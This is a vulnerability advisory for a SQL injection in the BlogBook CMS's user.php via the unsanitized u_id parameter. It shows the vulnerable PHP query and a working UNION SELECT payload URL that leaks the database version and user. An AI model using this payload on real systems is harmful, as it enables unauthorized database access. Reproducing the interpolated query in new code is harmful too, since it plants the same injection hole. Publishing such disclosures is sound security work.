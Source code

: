# BlogBook user.php u_id Parameter SQL Injection

**Exploit Title: BlogBook user.php u_id Parameter SQL**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows,PHP 5.6.9 ,Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

The BlogBook application is vulnerable to SQL injection via the `u_id` parameter in the `user.php` script. An unauthenticated attacker can exploit this vulnerability by providing a specially crafted `u_id` value in the URL. This allows the attacker to execute arbitrary SQL commands on the backend database, potentially leading to unauthorized data access, modification, or deletion, and in some configurations, remote code execution.

## Vulnerability Point

`blogbook-main/user.php:26`

## Vulnerable Parameter

`u_id`

## Vulnerable Code

```php
  if (isset($_GET['u_id'])) {
                    $link_user_id = $_GET['u_id'];



                    $query = "SELECT * FROM users WHERE user_id=$link_user_id";
                    $select_all_users_query = mysqli_query($connection, $query);


                    while ($row = mysqli_fetch_assoc($select_all_users_query)) {
    
                        $user_id = $row['user_id'];
                         $username = $row['username'];
                        $user_fname = $row['user_firstname'];
                        $user_lname = $row['user_lastname'];
                        $user_mail = $row['user_email'];
                           $user_image = $row['user_image'];
                        $user_role = $row['user_role'];
                        $user_info=$row['user_info'];
    
                        //  $query = "SELECT * FROM categories WHERE cat_id={$user_category_id}";
                        //         $select_categories_id = mysqli_query($connection, $query);
                        //         $cat = mysqli_fetch_assoc($select_categories_id);
                        //         $user_category = $cat['cat_title'];
                    }
                ?>
```
## Payload

`http://localhost/user.php?u_id=-1 UNION SELECT NULL,@@version,NULL,NULL,user(),NULL,NULL,NULL,NULL --`

![user.php sqli](./assets/user_sqli.png)
